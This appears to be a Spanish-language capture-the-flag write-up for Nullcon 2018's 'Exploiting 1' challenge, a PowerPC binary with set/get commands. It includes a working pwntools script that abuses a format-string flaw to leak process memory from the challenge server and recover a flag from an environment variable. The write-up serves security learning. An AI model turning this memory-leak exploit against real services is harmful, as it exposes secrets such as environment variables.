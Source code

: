 # CTF Nullcon 2018 - Exploiting 1

Exploitation Question 1 (200 pts)

Exploit the server at 35.170.14.27:9001
Flag is in env $PWNFLAG

```bash
# file pwn1-uhoh.bin
pwn1-uhoh.bin: ELF 32-bit MSB executable, PowerPC or cisco 4500, version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=2dce6781d919e201114e4896b4e80e7fc4306dc2, stripped
```

Este binario esta compilado para una arquitectura PowerPC, lo que nos dificulta un poco su análisis.

![](img/exp1-001.png)

El programa acepta 3 instrucciones distintas, *set*, *get* y *exit*. La instrucción *set* se construye con 2 parámetros y *get* con uno.

![](img/exp1-source.png)

Una vez decompilado el código, observamos como la función set parece ser vulnerable a format strings. Utilizamos el siguiente código para extraer datos de la memoria.

```python
import binascii
from pwn import *

def get(i):
    r.sendline('set A %' + str(i) + '$x')
    r.recvuntil('> ').strip()
    r.sendline('get A')
    rec = r.recvuntil('> ').split('\n')
    value = rec[1]

    try:
        print "%d|%s|%s" % ( i, value, binascii.unhexlify(value) )
    except:
        print "%d|%s|" % ( i, value )


r = remote('35.170.14.27',9001)
r.recvuntil('> ').strip()

for i in range(380):
    get(i)
```

Extracción de memoria del proceso

![](img/exp1-002.png)

En la memoria se observan las variables de entorno

![](img/exp1-003.png)

Modificamos el script para concatenar y mostrar el flag:

![](img/exp1-004.png)


Thanks to [@javierprtd](https://twitter.com/javierprtd)










